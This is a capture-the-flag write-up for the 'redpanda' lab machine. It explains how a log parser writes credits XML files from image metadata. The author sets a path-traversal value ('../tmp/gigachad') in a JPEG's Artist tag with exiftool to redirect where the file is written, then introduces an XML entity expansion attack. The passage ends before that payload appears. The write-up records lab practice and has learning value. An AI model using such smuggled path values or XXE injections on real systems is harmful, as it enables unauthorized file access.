 Based on the code, it read the log from `/opt/panda_search/redpanda.log` then check if it is an image.

In log, it must be as follow, splitted by `\\|\\|`.

- first part is `status_code` an interger
- second part is `ip` string
- third part is `user agent` string
- last part is `uri` also a string, and this part must point to an image (in jpg).

From the jpg image, it reads the image Metadata, `tag = Artist`.

Once the artist name is received, it will output an XML file under `/credits/<artist>/_creds.xml`. However, since the current user does not have write access to `/credits` (as you can see below), I need to set artist name to `../tmp/ghost` so it will output file at `/tmp/ghost_creds.xml`.

```bash
woodenk@redpanda:/opt/credit-score/LogParser/final/target$ ls -l /credits
total 8
-rw-r----- 1 root logs 422 Jun 21 12:31 damian_creds.xml
-rw-r----- 1 root logs 426 Jun 21 12:32 woodenk_creds.xml

woodenk@redpanda:/opt/credit-score/LogParser/final/target$ cat /credits/woodenk_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

First I set the tag as below.

```bash
ghost@localhost [17:12:38] [~/Documents/hacking/tj-null-boxes/redpanda] [master *]
-> % exiftool -Artist="../tmp/gigachad" gigachad.jpg
    1 image files updated
```

Then I recreate a `gigachad_creds.xml` in same format as the rest. But with XML entity expansion attack, you can read more about it here (https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_java.html#vulnerable-example-1).
